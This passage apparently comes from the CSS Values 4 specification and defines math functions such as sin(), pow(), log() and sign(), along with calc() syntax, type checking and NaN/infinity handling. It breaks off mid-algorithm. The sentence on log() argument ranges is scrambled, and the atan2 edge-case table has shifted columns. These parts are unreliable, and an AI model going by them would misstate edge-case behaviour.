> **Note:** All other "infinite B" cases are valid, and just return A immediately.

#### 10.4.  Trigonometric Functions: `sin()`, `cos()`, `tan()`, `asin()`, `acos()`, `atan()`, and `atan2()` {#css-values-4:trig-funcs}

The trigonometric functions—​`sin()`, `cos()`, `tan()`, `asin()`, `acos()`, `atan()`, and `atan2()`—​compute the various basic trigonometric relationships.

The **sin(A)**, **cos(A)**, and **tan(A)** functions all contain a single calculation which must resolve to either a `<number>` or an `<angle>`, and compute their corresponding function by interpreting the result of their argument as radians. (That is, `sin(45deg)`, `sin(.125turn)`, and `sin(3.14159 / 4)` all represent the same value, approximately `.707`.) They all represent a <number>, with the return type made consistent with the input calculation’s type. `sin()` and `cos()` will always return a number between −1 and 1, while `tan()` can return any number between −∞ and +∞. (See [§ 10.9 Type Checking](#css-values-4:calc-type-checking) for details on how math functions handle ∞.)

The **asin(A)**, **acos(A)**, and **atan(A)** functions are the "arc" or "inverse" trigonometric functions, representing the inverse function to their corresponding "normal" trig functions. All of them contain a single calculation which must resolve to a `<number>`, and compute their corresponding function, interpreting their result as a number of radians, representing an `<angle>` with the return type made consistent with the input calculation’s type. The angle returned by `asin()` must be normalized to the range [`-90deg`, `90deg`]; the angle returned by `acos()` to the range [`0deg`, `180deg`]; and the angle returned by `atan()` to the range [`-90deg`, `90deg`].

The **atan2(A, B)** function contains two comma-separated calculations, A and B. A and B can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid. The function returns the `<angle>` between the positive X-axis and the point (B,A), with the return type made consistent with the input calculation’s type. The returned angle must be normalized to the interval (`-180deg`, `180deg`] (that is, greater than `-180deg`, and less than or equal to `180deg`).

> **Note:** `atan2(Y, X)` is *generally* equivalent to `atan(Y / X)`, but it gives a better answer when the point in question may include negative components. `atan2(1, -1)`, corresponding to the point (-1, 1), returns `135deg`, distinct from `atan2(-1, 1)`, corresponding to the point (1, -1), which returns `-45deg`. In contrast, `atan(1 / -1)` and `atan(-1 / 1)` both return`-45deg`, because the internal calculation resolves to `-1` for both.

##### 10.4.1.  Argument Ranges {#css-values-4:trig-infinities}

In `sin(A)`, `cos(A)`, or `tan(A)`, if A is infinite, the result is NaN. (See [§ 10.9 Type Checking](#css-values-4:calc-type-checking) for details on how math functions handle NaN.)

In `sin(A)` or `tan(A)`, if A is 0⁻, the result is 0⁻.

In `tan(A)`, if A is one of the asymptote values (such as `90deg`, `270deg`, etc), the numeric result is implementation-defined. If an implementation is capable of exactly representing these inputs, it *should* return +∞ for the asymptotes at `90deg + N*360deg`, and −∞ for the asymptotes at `-90deg + N*360deg`, but implementations are not required to be able to exactly represent these inputs (and if they can’t, will return whatever the correct numeric answer is for the closest approximation to the input they are capable of representing). Authors *must not* rely on `tan()` returning any particular value for these inputs.

> **Note:** Why are these implementation-defined?
>
> The tangent function is *discontinuous* at its asymptotes: it approaches infinity from one side *and* negative infinity from the other side, and isn’t defined at the exact values of the asymptote.
>
> Further, whether or not the asymptotic values are exactly representable in implementations depends on how they internally store and manipulate angles; when written in degrees the values are simple (`90deg`, etc), but in radians the values are transcendental (`pi / 2`, etc) and cannot be exactly represented. So, even defining a specific behavior for these values is difficult; if an implementation uses radians internally, it would have to do some fuzzy matching to return the defined value when the input is *sufficiently close* to the asymptote.
>
> The other major language for the Web, JavaScript, exposes these functions as taking radians only, so it can’t hit the exact asymptotes either (and this true for most other computer languages, too). Authors writing code in JS, then, can’t rely on any specific behavior for these values either, and it’s unlikely that their needs in CSS are significantly different.
>
> The suggested behavior for implementations that can exactly represent the asymptote values preserves round-tripping with the `atan()` function: `tan(atan(X))` and `atan(tan(X))` will both return (approximately) X for all possible X values, given this definition. It also means that within the supported output range of `atan()`, the function is continuous.

In `asin(A)` or `acos(A)`, if A is less than -1 or greater than 1, the result is NaN.

In `acos(A)`, if A is exactly 1, the result is 0.

In `asin(A)` or `atan(A)`, if A is 0⁻, the result is 0⁻.

In `atan(A)`, if A is +∞, the result is `90deg`; if A is −∞, the result is `-90deg`.

In `atan2(Y, X)`, the following table gives the results for all unusual argument combinations:

|  | X |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- |
|  | −∞ | -finite | 0⁻ | 0⁺ | +finite | +∞ |  |
| Y | −∞ | -135deg | -90deg | -90deg | -90deg | -90deg | -45deg |
| -finite | -180deg | (normal) | -90deg | -90deg | (normal) | 0⁻deg |  |
| 0⁻ | -180deg | -180deg | -180deg | 0⁻deg | 0⁻deg | 0⁻deg |  |
| 0⁺ | 180deg | 180deg | 180deg | 0⁺deg | 0⁺deg | 0⁺deg |  |
| +finite | 180deg | (normal) | 90deg | 90deg | (normal) | 0⁺deg |  |
| +∞ | 135deg | 90deg | 90deg | 90deg | 90deg | 45deg |  |

> **Note:** All of these behaviors are intended to match the "standard" definitions of these functions as implemented by most programming languages, in particular as implemented in JS.

#### 10.5.  Exponential Functions: `pow()`, `sqrt()`, `hypot()`, `log()`, `exp()` {#css-values-4:exponent-funcs}

The exponential functions—​`pow()`, `sqrt()`, `hypot()`, `log()`, and `exp()`—​compute various exponential functions with their arguments.

The **pow(A, B)** function contains two comma-separated calculations A and B, both of which must resolve to `<number>`s, and returns the result of raising A to the power of B, returning the value as a <number>. The input calculations must have a consistent type or else the function is invalid; the result’s type will be the consistent type.

The **sqrt(A)** function contains a single calculation which must resolve to a `<number>`, and returns the square root of the value as a <number>, with the return type made consistent with the input calculation’s type. (`sqrt(X)` and `pow(X, .5)` are basically equivalent, differing only in some error-handling; `sqrt()` is a common enough function that it is provided as a convenience.)

The **hypot(A, …)** function contains one or more comma-separated calculations, and returns the length of an N-dimensional vector with components equal to each of the calculations. (That is, the square root of the sum of the squares of its arguments.) The argument calculations can resolve to any `<number>`, `<dimension>`, or `<percentage>`, but must have a consistent type or else the function is invalid; the result’s type will be the consistent type.

> **Note:** Why does `hypot()` allow dimensions (values with units), but `pow()` and `sqrt()` only work on numbers?
>
> You are allowed to write expressions like `hypot(30px, 40px)`, which resolves to `50px`, but you aren’t allowed to write the expression `sqrt(pow(30px, 2) + pow(40px, 2))`, despite the two being equivalent in most mathematical systems.
>
> There are two reasons for this: numeric precision in the exponents, and clashing expectations from authors.
>
> First, numerical precision. For a type to match a CSS production like `<length>`, it needs to have a single unit with its exponent set to exactly 1. Theoretically, expressions like `pow(pow(30px, 3), 1/3)` should result in exactly that: the inner `pow(30px, 3)` would resolve to a value of 27000 with a type of «[ "length" → 3 ]» (aka <length>³), and then the `pow(X, 1/3)` would cube-root the value back down to 30 and multiply the exponent by 1/3, giving «[ "length" → 1 ]», which matches <length>.
>
> In the realm of pure mathematics, that’s guaranteed to work out; in the real-world of computers using binary floating-point arithmetic, in some cases the powers might not exactly cancel out, leaving you with an invalid math function for confusing, hard-to-track-down reasons. (For a JS example, evaluate `Math.pow(Math.pow(30, 10/3), .1+.1+.1)`; the result is not exactly 30, because `.1+.1+.1` is not exactly 3/10. Instead, `(10/3) * (.1 + .1 + .1)` is *slightly greater* than 1.)
>
> Requiring authors to cast their value down into a number, do all the math on the raw number, then finally send it back to the desired unit, while inconvenient, ensures that numerical precision won’t bite anyone: `calc(pow(pow(30px / 1px, 3), 1/3) * 1px)` is guaranteed to resolve to a `<length>`, with a value that, if not exactly 30, is at least very close to 30, even if numerical precision actually prevents the powers from exactly canceling.
>
> Second, clashing expectations. It’s not uncommon for authors to expect `pow(30px, 2)` to result in `900px` (such as in [this Sass issue](https://github.com/sass/sass/issues/684)); that is, just squaring the numerical value and leaving the unit alone. This, however, means the result is dependent on what unit you’re expressing the argument in; if `1em` is `16px`, then `pow(1em, 2)` would give `1em`, while `pow(16px, 2)` would give `256px`, or `16em`, which are very different values for what should otherwise be identical input arguments! This sort of input dependency is troublesome for CSS, which generally allows values to be canonicalized freely; it also makes more complex expressions like `pow(2em + 10px, 2)` difficult to interpret.
>
> Again, requiring authors to cast their value down into a number and then back up again into the desired unit sidesteps these issues; `pow(30, 2)` is indeed `900`, and the author can interpret that however they wish.
>
> ---
>
> On the other hand, `hypot()` doesn’t suffer from these problems. Numerical precision in units isn’t a concern, as the inputs and output all have the same type. The result isn’t unit-dependent, either, due to the nature of the operation; `hypot(3em, 4em)` and `hypot(48px, 64px)` both result in the same length when `1em` equals `16px`: `5em` or `80px`. Thus it’s fine to let author use dimensions directly in `hypot()`.

The **log(A, B?)** function contains one or two calculations (representing the value to be logarithmed, and the base of the logarithm, defaulting to e), which must resolve to `<number>`s, and returns the logarithm base B of the value A, as a <number> with the return type made consistent with the input calculation’s type.

The **exp(A)** function contains one calculation which must resolve to a `<number>`, and returns the same value as `pow(e, A)` as a <number> with the return type made consistent with the input calculation’s type.

> **Example:** The `pow()` function can be useful for strategies like [CSS Modular Scale](https://www.modularscale.com/), which relates all the font-sizes on a page to each other by a fixed ratio.
>
> These sizes can be easily written into custom properties like:
>
> ```css
> :root {
>   --h6: calc(1rem * pow(1.5, -1));
>   --h5: calc(1rem * pow(1.5, 0));
>   --h4: calc(1rem * pow(1.5, 1));
>   --h3: calc(1rem * pow(1.5, 2));
>   --h2: calc(1rem * pow(1.5, 3));
>   --h1: calc(1rem * pow(1.5, 4));
> }
> ```
>
> ...rather than writing out the values in pre-calculated numbers like `5.0625rem` (what `calc(1rem * pow(1.5, 4))` resolves to) which have less clear provenance when encountered in a stylesheet.

> **Example:** With a single argument, `hypot()` gives the absolute value of its input; `hypot(2em)` and `hypot(-2em)` both resolve to `2em`.
>
> With more arguments, it gives the size of the main diagonal of a box whose side lengths are given by the arguments. This can be useful for transform-related things, giving the distance that an element will actually travel when it’s translated by a particular X, Y, and Z amount.
>
> For example, `hypot(30px, 40px)` resolves to `50px`, which is indeed the distance between an element’s starting and ending positions when it’s translated by a `translate(30px, 40px)` transform. If an author wanted elements to get smaller as they moved further away from their starting point (drawing some sort of word cloud, for example), they could then use this distance in their scaling factor calculations.

> **Example:** With a single argument, `log()` provides the “natural log” of its argument, or the log base e, same as JavaScript.
>
> If one instead wants log base 10 (to, for example, count the number of digits in a value) or log base 2 (counting the number of bits in a value), `log(X, 10)` or `log(X, 2)` provide those values.

##### 10.5.1.  Argument Ranges {#css-values-4:exponent-infinities}

In `pow(A, B)`, if A is negative and finite, and B is finite, B must be an integer, or else the result is NaN.

If A or B are infinite or 0, the following tables give the results:

|  | A is −∞ | A is 0⁻ | A is 0⁺ | A is +∞ |
| --- | --- | --- | --- | --- |
| B is −finite | 0⁻ if B is an odd integer, 0⁺ otherwise | −∞ if B is an odd integer, +∞ otherwise | +∞ | 0⁺ |
| B is 0 | always 1 |  |  |  |
| B is +finite | −∞ if B is an odd integer, +∞ otherwise | 0⁻ if B is an odd integer, 0⁺ otherwise | 0⁺ | +∞ |

|  | A is < -1 | A is -1 | -1 < A < 1 | A is 1 | A is > 1 |
| --- | --- | --- | --- | --- | --- |
| B is +∞ | result is +∞ | result is NaN | result is 0⁺ | result is NaN | result is +∞ |
| B is −∞ | result is 0⁺ | result is NaN | result is +∞ | result is NaN | result is 0⁺ |

In `sqrt(A)`, if A is +∞, the result is +∞. If A is 0⁻, the result is 0⁻. If A is less than 0, the result is NaN.

In `hypot(A, …)`, if any of the inputs are infinite, the result is +∞.

In `log(A, B)`, if B is 1 or negative,  B values *between* 0 and 1, or greater than 1, are valid.  the result is NaN. If A is negative, the result is NaN. If A is 0⁺ or 0⁻, the result is −∞. If A is 1, the result is 0⁺. If A is +∞, the result is +∞.

In `exp(A)`, if A is +∞, the result is +∞. If A is −∞, the result is 0⁺.

(See [§ 10.9 Type Checking](#css-values-4:calc-type-checking) for details on how math functions handle NaN and infinities.)

> **Note:** All of these behaviors are intended to match the "standard" definitions of these functions as implemented by most programming languages, in particular as implemented in JS.
>
> The only divergences from the behavior of the equivalent JS functions are that NaN is "infectious" in *every* function, forcing the function to return NaN if any argument calculation is NaN.
>
> Details of the JS Behavior
>
> There are two cases in JS where a NaN is not "infectious" to the math function it finds itself in:
>
> - `Math.hypot(Infinity, NaN)` will return `Infinity`.
> - `Math.pow(NaN, 0)` will return `1`.
>
> The logic appears to be that, if you replace the NaN with *any* Number, the return value will be the same. However, this logic is not applied consistently to the `Math` functions: `Math.max(Infinity, NaN)` returns `NaN`, not `Infinity`; the same is true of `Math.min(-Infinity, NaN)`.
>
> Because this is an error corner case, JS isn’t consistent on the matter, and NaN recognition/handling of calculations is likely done at a higher CSS level rather than in the internal math functions anyway, consistency in CSS was chosen to be more important, so all functions were defined to have "infectious" NaN.

#### 10.6.  Sign-Related Functions: `abs()`, `sign()` {#css-values-4:sign-funcs}

The sign-related functions—​`abs()` and `sign()`—​compute various functions related to the sign of their argument.

The **abs(A)** function contains one calculation A, and returns the absolute value of A, as the same type as the input: if A’s numeric value is positive or 0⁺, just A again; otherwise `-1 * A`.

The **sign(A)** function contains one calculation A, and returns -1 if A’s numeric value is negative, +1 if A’s numeric value is positive, 0⁺ if A’s numeric value is 0⁺, and 0⁻ if A’s numeric value is 0⁻. The return type is a `<number>`, made consistent with the input calculation’s type.

> **Note:** Both of these functions operate on the fully simplified/resolved form of their arguments, which may give unintuitive results at first glance. In particular, an expression like `10%` might be positive *or* negative once it’s resolved, depending on what value it’s resolved against. For example, in `background-position` positive percentages resolve to a negative length, and vice versa, if the background image is larger than the background area. Thus `sign(10%)` might return `1` *or* `-1`, depending on how the percentage is resolved! (Or even `0`, if it’s resolved against a zero length.)

#### 10.7.  Numeric Keywords {#css-values-4:calc-keywords}

Keywords in calculations provide access to values that are difficult or impossible to represent as literals. Each keyword defines its value, its type, and when it can be resolved.

##### 10.7.1.  Numeric Constants: `e`, `pi` {#css-values-4:calc-constants}

While the trigonometric and exponential functions handle many complex numeric operations, some reasonable calculations must be put together more manually, and many times these include well-known constants, such as *e* and *π*.

Rather than require authors to manually type out several digits of these constants, a few of them are provided directly:

****e****

: the base of the natural logarithm, approximately equal to 2.7182818284590452354.

****pi****

: the ratio of a circle’s circumference to its diameter, approximately equal to 3.1415926535897932.

Both of these keywords are `<number>`s, and resolve at parse time.

> **Note:** These keywords are only usable within a calculation, such as `calc(pow(e, pi) - pi)`, or `min(pi, 5, e)`. If used outside of a calculation, they’re treated like any other keyword: `animation-name: pi;` refers to an animation named "pi"; `line-height: e;` is invalid (*not* similar to `line-height: 2.7`, but `line-height: calc(e);` is).

##### 10.7.2.  Degenerate Numeric Constants: `infinity`, `-infinity`, `NaN` {#css-values-4:calc-error-constants}

When a calculation or a subtree of a calculation becomes infinite or NaN, representing it with a numeric value is no longer possible. A UA may have an **implementation-defined limit for values approaching infinity**.

To aid in serialization of these degenerate values, the following additional math constants are defined:

****infinity****

: the value positive infinity (+∞)

****-infinity****

: the value negative infinity (−∞)

****NaN****

: the value NaN

All of these keywords are `<number>`s, and resolve at parse time.

As usual for CSS keywords, these are ASCII case-insensitive.  Thus, `calc(InFiNiTy)` is perfectly valid.  However, `NaN` must be serialized with this canonical casing.

> **Note:** As these keywords are `<number>`s, to get an infinite length, for example, requires an expression like `calc(infinity * 1px)`.

> **Note:** These constants are defined *mostly* to make serialization of infinite/NaN values simpler and more obvious, but *can* be used to indicate a "largest possible value", since an infinite value gets clamped to the allowed range. It’s rare for this to be reasonable, but when it is, using `infinity` is clearer in its intent than just putting an enormous number in one’s stylesheet.

##### 10.7.3.  Numeric Variables {#css-values-4:calc-variables}

Other specifications can define additional keywords which are usable in calculations in certain contexts. For example, relative color syntax defines a number of color-channel keywords representing the value of each color channel as a `<number>`.

Each specifications defining such keywords must define for each keyword:

- its value
- its type (`<number>`, `<length>`, etc)
- when it resolves (parse time, computed-value time, or used-value time)

#### 10.8.  Syntax {#css-values-4:calc-syntax}

The syntax of a math function is:

```css
<calc()>  = calc( <calc-sum> )
<min()>   = min( <calc-sum># )
<max()>   = max( <calc-sum># )
<clamp()> = clamp( [ <calc-sum> | none ], <calc-sum>, [ <calc-sum> | none ] )
<round()> = round( <rounding-strategy>?, <calc-sum>, <calc-sum>? )
<mod()>   = mod( <calc-sum>, <calc-sum> )
<rem()>   = rem( <calc-sum>, <calc-sum> )
<sin()>   = sin( <calc-sum> )
<cos()>   = cos( <calc-sum> )
<tan()>   = tan( <calc-sum> )
<asin()>  = asin( <calc-sum> )
<acos()>  = acos( <calc-sum> )
<atan()>  = atan( <calc-sum> )
<atan2()> = atan2( <calc-sum>, <calc-sum> )
<pow()>   = pow( <calc-sum>, <calc-sum> )
<sqrt()>  = sqrt( <calc-sum> )
<hypot()> = hypot( <calc-sum># )
<log()>   = log( <calc-sum>, <calc-sum>? )
<exp()>   = exp( <calc-sum> )
<abs()>   = abs( <calc-sum> )
<sign()>  = sign( <calc-sum> )
<calc-sum> = <calc-product> [ [ '+' | '-' ] <calc-product> ]*
<calc-product> = <calc-value> [ [ '*' | / ] <calc-value> ]*
<calc-value> = <number> | <dimension> | <percentage> |
               <calc-keyword> | ( <calc-sum> )
<calc-keyword> = e | pi | infinity | -infinity | NaN
<rounding-strategy> = nearest | up | down | to-zero | line-width
```

In some contexts, additional `<calc-keyword>` values can be defined to be valid. (For example, in relative color syntax, appropriate channel keywords are allowed.)

In addition, whitespace is required on both sides of the `+` and `-` operators. (The `*` and `/` operators can be used without white space around them.)

Several of the math functions above have additional constraints on what their `<calc-sum>` arguments can contain. Check the definitions of the individual functions for details.

UAs must support calculations of at least 32 `<calc-value>` terms and at least 32 levels of nesting (parentheses and/or functions). For functions that support an arbitrary number of arguments (such as `min()`), it must also support at least 32 arguments. If a calculation contains more than the supported number of terms, arguments, or nesting it must be treated as if it were invalid.

#### 10.9.  Type Checking {#css-values-4:calc-type-checking}

A math function can be many possible types, such as `<length>`, `<number>`, etc., depending on the calculations it contains, as defined below. It can be used anywhere a value of that type is allowed.

> **Example:** For example, the `width` property accepts `<length>` values, so a math function that resolves to a <length>, such as `calc(5px + 1em)`, can be used in `width`.

Additionally, math functions that resolve to `<number>` can be used in any place that only accepts `<integer>`; the value is rounded to the nearest integer as it resolves.

Operators form sub-expressions, which gain types based on their arguments.

> **Note:** In previous versions of this specification, multiplication and division were limited in what arguments they could take, to avoid producing more complex intermediate results (such as `1px * 1em`, which is `<length>`²) and to make division-by-zero detectable at parse time. This version now relaxes those restrictions.

To **determine the type of a calculation**:

- At a `+` or `-` sub-expression, attempt to add the types of the left and right arguments. If this returns failure, the entire calculation’s type is failure. Otherwise, the sub-expression’s type is the returned type.
- At a `*` sub-expression, multiply the types of the left and right arguments. The sub-expression’s type is the returned result.
- At a `/` sub-expression, let *left type* be the result of finding the types of its left argument, and *right type* be the result of finding the types of its right argument and then inverting it.

  The sub-expression’s type is the result of multiplying the *left type* and *right type*.
- Anything else is a terminal value, whose type is determined based on its CSS type. (Unless otherwise specified, the type’s associated percent hint is null.)

  **`<number>` `<integer>`**

  : the type is «[ ]» (empty map)

  **`<length>`**

  : the type is «[ "length" → 1 ]»

  **`<angle>`**

  : the type is «[ "angle" → 1 ]»

  **`<time>`**

  : the type is «[ "time" → 1 ]»

  **`<frequency>`**

  : the type is «[ "frequency" → 1 ]»

  **`<resolution>`**

  : the type is «[ "resolution" → 1 ]»

  **`<flex>`**

  : the type is «[ "flex" → 1 ]»

  **`<calc-keyword>`**

  : the type is as defined by the keyword

  **`<percentage>`**

  : If, in the context in which the math function containing this calculation is placed, `<percentage>`s are resolved relative to another type of value (such as in `width`, where <percentage> is resolved against a `<length>`), and that other type is *not* `<number>`, the type is determined as the other type, but with a percent hint set to that other type.

  Otherwise, the type is «[ "percent" → 1 ]», with a percent hint of "percent".

  **anything else**

  : The calculation’s type is failure.

A value **contains a percentage** if its type is «[ "percent" → 1 ]», or its type’s percent hint is non-null.

Two or more calculations have a **consistent type** if adding the types doesn’t result in failure. The consistent type is the result of the type addition.

To **make a type *base* consistent** with another type *input*:

1. If both *base* and *input* have different non-null percent hints, they can’t be made consistent. Return failure.
2. If *base* has a null percent hint set *base*’s percent hint to *input*’s percent hint.
3. Return *base*.

Math functions themselves have types, according to their contained calculations:

**`calc()` `abs()`**

: The type of its contained calculation.

**`min()` `max()` `clamp()` `hypot()` `round()` `mod()` `rem()`**

: The result of adding the types of its comma-separated calculations.

**`asin()` `acos()` `atan()` `atan2()`**

: «[ "angle" → 1 ]».

**`sign()` `sin()` `cos()` `tan()` `pow()` `sqrt()` `log()` `exp()`**

: «[ ]» (empty map).

For each of the above, if the type is failure, the math function is invalid.

A math function resolves to `<number>`, `<length>`, `<angle>`, `<time>`, `<frequency>`, `<resolution>`, `<flex>`, or `<percentage>` according to which of those productions its type matches. (These categories are mutually exclusive.) If it can’t match any of these, the math function is invalid.

> **Note:** Algebraic simplifications do not affect the validity of a math function or its resolved type. For example, `calc(5px - 5px + 10s)` and `calc(0 * 5px + 10s)` are both invalid due to the attempt to add a length and a time.

> **Note:** Note that `<percentage>`s relative to `<number>`s, such as in `opacity`, are not *combinable* with those numbers—​`opacity: calc(.25 + 25%)` is invalid. Allowing this causes significant problems with "unit algebra" (allowing multiplication/division of `<dimension>`s), and in every case so far, doesn’t provide any new functionality. (For example, `opacity: 25%` is identical to `opacity: .25`; it’s just a trivial syntax transform.) You can still perform other operations with them, such as `opacity: calc(100% / 3);`, which is valid.

> **Note:** Because `<number-token>`s are always interpreted as `<number>`s or `<integer>`s, "unitless 0" `<length>`s aren’t supported in math functions. That is, `width: calc(0 + 5px);` is invalid, because it’s trying to add a <number> to a <length>, even though both `width: 0;` and `width: 5px;` are valid.

> **Note:** Although there are a few properties in which a bare `<number>` becomes a `<length>` at used-value time (specifically, `line-height` and `tab-size`), <number>s never become "length-like" in `calc()`. They always stay as <number>s.

> **Note:** In Quirks Mode [QUIRKS], some properties that would normally only accept `<length>`s are defined to also accept `<number>`s, interpreting them as `px` lengths. Like unitless zeroes, this has no effect on the parsing or behavior of math functions, though a math function that resolves to a <number> value might become valid in Quirks Mode (and have its result interpreted as a `px` length).

##### 10.9.1.  Calculation Contexts {#css-values-4:calc-context}

Numeric values can be interpreted in various **calculation contexts**, depending on where they are used, which defines how `<percentage>` values resolve, etc.

> **Example:** For example, in `top`, a `<percentage>` value is resolved against the size of the containing block, making it act as a `<length>`. A single property can define multiple calculation contexts; for example, in `background-size` one value resolves <percentage>s against the width of the background positioning area while the other resolves them against the height.

Math functions always inherit the calculation context from wherever they’re used. That is, in `top: calc(25% + 50px)`, the `<percentage>` is resolved *as normal* for `top`, as if `top: 25%` were specified (and then has `50px` added to its value).

Unless otherwise defined, all other functions **do not inherit a calculation context**, and instead define their own calculation contexts for their numeric arguments. For example, in `top: anchor(25%)`, the `<percentage>` in the `anchor()` function is instead defined to resolve in a completely different manner (against the height of the default anchor element).

##### 10.9.2.  Infinities, NaN, and Signed Zero {#css-values-4:calc-ieee}

Math functions follow IEEE-754 semantics, which means they recognize the concepts of positive and negative zero, positive and negative infinity, and NaN (not a number).

However, these concepts are only retained within a calculation tree; if a **top-level calculation** (a math function not nested directly inside of another math function) would result in one of these special values, they’re instead "censored" into a standard representable value, as defined below.

**Signed zeros** (indicated here as 0⁺ or 0⁻) can not be written directly in CSS; `0`, `+0` and `-0` all produce the standard "unsigned" zero, which is considered positive (0⁺) for the purposes of these rules.

Signed zeroes are produced in the following ways:

- Negative zero (0⁻) can be produced by a multiplication or division that produces zero with exactly one negative argument (such as `-5 * 0` or `1 / -infinity`).
- `0⁻ + 0⁻` or `0⁻ - 0⁺` produces 0⁻. All other additions or subtractions that would produce a zero produce 0⁺.
- Multiplying or dividing 0⁻ with a positive number (including 0⁺) produces a negative result (either 0⁻ or −∞), while multiplying or dividing 0⁻ with a negative number produces a positive result.

  (In other words, multiplying or dividing with 0⁻ follows standard sign rules.)
- When comparing 0⁺ and 0⁻, 0⁻ is less than 0⁺. For example, `min(0⁺, 0⁻)` must produce 0⁻, `max(0⁺, 0⁻)` must produce 0⁺, and `clamp(0⁺, 0⁻, 1)` must produce 0⁺.
- Certain argument combinations in math functions are defined to produce 0⁻ (for example, `round(-1, infinity)`). All other operations that produce a zero produce positive zero (0⁺).

Signed zeroes do not escape a top-level calculation; they’re censored into the "unsigned" zero.

**Infinities** (indicated here as +∞ or −∞) can be written directly using the [math constants](#css-values-4:calc-error-constants) `infinity` and `-infinity`, or produced as a result of some calculations:

- Dividing a value by zero produces either +∞ or −∞, according to the standard sign rules.
- Adding or subtracting ±∞ to anything produces the appropriate infinity.
- Multiplying any value by ±∞ produces the appropriate infinity.
- Dividing any value by ±∞ produces zero.
- Certain argument combinations in math functions are defined to produce infinities (for example, `pow(0, -1)` produces +∞).

> **Note:** The rules for producing NaN, below, supersede the above rules for producing infinities.

Infinities do not escape a top-level calculation; they’re clamped to the minimum or maximum value allowed in the context, as defined in [§ 10.12 Range Checking](#css-values-4:calc-range).

**NaN** (short for "not a number") is the result of certain operations that don’t have a well-defined value. It can be written directly using the [math constants](#css-values-4:calc-error-constants) `NaN`, or produced as a result of some calculations:

- Dividing zero by zero, dividing ±∞ by ±∞, multiplying 0 by ±∞, adding +∞ to −∞, or subtracting two infinities of the same sign produces NaN.

  These rules override any other result, if there’s a conflict. For example, `0 / 0` is NaN, not +∞.
- Certain argument combinations in math functions are defined to produce NaN (for example, `asin(2)` produces NaN).
- Any operation with at least one NaN argument produces NaN.

NaN does not escape a top-level calculation; it’s censored into a zero value

> **Example:** For example, `calc(-5 * 0)` produces an unsigned zero—​the calculation resolves to 0⁻, but as it’s a top-level calculation, it’s then censored to an unsigned zero.
>
> On the other hand, `calc(1 / calc(-5 * 0))` produces −∞, same as `calc(1 / (-5 * 0))`—​the inner calc resolves to 0⁻, and as it’s not a top-level calculation, it passes it up unchanged to the outer calc to produce −∞. If it was censored into an unsigned zero, it would instead produce +∞.

#### 10.10.  Internal Representation {#css-values-4:calc-internal}

The internal representation of a math function is a **calculation tree**: a tree where the branch nodes are **operator nodes** corresponding either to math functions (such as Min, Cos, Sqrt, etc) or to operators in a calculation (Sum, Product, Negate, and Invert, the **calc-operator nodes**), and the leaf nodes are either numeric values (such as numbers, dimensions, and percentages) or non-math functions that resolve to a numeric type.

Math functions are turned into calculation trees depending on the function:

**calc()**

: The internal representation of a `calc()` function is the result of parsing a calculation from its argument.

**any other math function**

: The internal representation is an operator node with the same name as the function, whose children are the result of parsing a calculation from each of the function’s arguments, in the order they appear.

To **parse a calculation**, given a calculation *values* represented as a list of component values, and returning a calculation tree:

1. Discard any `<whitespace-token>`s from *values*.
2. An item in *values* is an “operator” if it’s a `<delim-token>` with the value "+", "-", "*", or "/". Otherwise, it’s a “value”.
3. Collect children into Product and Invert nodes.

   For every consecutive run of value items in *values* separated by "*" or "/" operators:

  1. For each "/" operator in the run, replace its right-hand value item *rhs* with an Invert node containing *rhs* as its child.
  2. Replace the entire run with a Product node containing the value items of the run as its children.
4. Collect children into Sum and Negate nodes.

  1. For each "-" operator item in *values*, replace its right-hand value item *rhs* with a Negate node containing *rhs* as its child.
  2. If *values* has only one item, and it is a Product node or a parenthesized simple block, replace *values* with that item.

     Otherwise, replace *values* with a Sum node containing the value items of *values* as its children.
5. At this point *values* is a tree of Sum, Product, Negate, and Invert nodes, with other types of values at the leaf nodes. Process the leaf nodes.

   For every leaf node *leaf* in *values*:

  1. If *leaf* is a parenthesized simple block, replace *leaf* with the result of parsing a calculation from *leaf*’s contents.
  2. If *leaf* is a math function, replace *leaf* with the internal representation of that math function.
6. Return the result of simplifying a calculation tree from *values*.

##### 10.10.1.  Simplification {#css-values-4:calc-simplification}

Internal representations of math functions are eagerly simplified to the extent possible, using standard algebraic simplifications (distributing multiplication over sums, combining similar units, etc.).

When used in non-property contexts (such as in `@font-face` descriptors, for example), math functions are simplified as if they were specified values.

To **simplify a calculation tree** *root*:

1. If *root* is a numeric value:

  1. If *root* is a percentage that will be resolved against another value, and there is enough information available to resolve it, do so, and express the resulting numeric value in the appropriate canonical unit. Return the value.
  2. If *root* is a dimension that is not expressed in its canonical unit, and there is enough information available to convert it to the canonical unit, do so, and return the value.
  3. If *root* is a `<calc-keyword>` that can be resolved, return what it resolves to, simplified.
  4. Otherwise, return *root*.
2. If *root* is any other leaf node (not an operator node):

  1. If there is enough information available to determine its numeric value, return its value, expressed in the value’s canonical unit.
  2. Otherwise, return *root*.
3. At this point, *root* is an operator node. Simplify all the calculation children of *root*.
4. If *root* is an operator node that’s not one of the calc-operator nodes, and all of its calculation children are numeric values with enough information to compute the operation *root* represents, return the result of running *root*’s operation using its children, expressed in the result’s canonical unit.

   > **Note:** If a percentage is left at this point, it will *usually* block simplification of the node, since it needs to be resolved against another value using information not currently available. (Otherwise, it would have been converted to a different value in an earlier step.) This includes operations such as "min", since percentages might resolve against a negative basis, and thus end up with an opposite comparative relationship than the raw percentage value would seem to indicate.
   >
   > However, "raw" percentages—​ones which do not resolve against another value, such as in `opacity`—​might not block simplification.
5. If *root* is a Min or Max node, attempt to *partially* simplify it:

  1. For each node *child* of *root*’s children:

     If *child* is a numeric value with enough information to compare magnitudes with another child of the same unit (see note in previous step), and there are other children of *root* that are numeric values with the same unit, combine all such children with the appropriate operator per *root*, and replace *child* with the result, removing all other child nodes involved.
  2. If *root* has only one child, return the child.

     Otherwise, return *root*.
6. If *root* is a Negate node:

  1. If *root*’s child is a numeric value, return an equivalent numeric value, but with the value negated (0 - value).
  2. If *root*’s child is a Negate node, return the child’s child.
  3. If *root*’s child is a Sum node:

    1. Let *negated grandchildren* be an empty list
    2. For each *grandchild* of the child’s children:

      1. If *grandchild* is a numeric value, create an equivalent numeric value, but with the value negated (0 - value), and append the result to *negated grandchildren*.
      2. If *grandchild* is a Negate node append *grandchild*’s child to *negated grandchildren*
      3. Otherwise, create a Negate node with *grandchild* as its child, and append the result to *negated grandchildren*
    3. Return a Sum node with *negated grandchildren* as its children
  4. Return *root*.
7. If *root* is an Invert node:

